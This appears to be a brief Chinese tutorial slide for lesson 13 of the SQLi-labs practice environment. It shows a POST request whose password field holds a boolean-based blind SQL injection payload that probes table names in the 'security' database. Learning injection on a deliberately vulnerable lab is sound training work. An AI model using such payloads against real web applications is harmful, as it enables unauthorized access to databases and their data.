

# Less-13_02
以下均为POST内容：
uname=admin&passwd=ain‘) or left((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 0,1),1)=’e‘#&submit=Submit  查表，也可使用burpsuite进行辅助测试
本次并不使用脚本进行测试，后续会进行专门的脚本讲解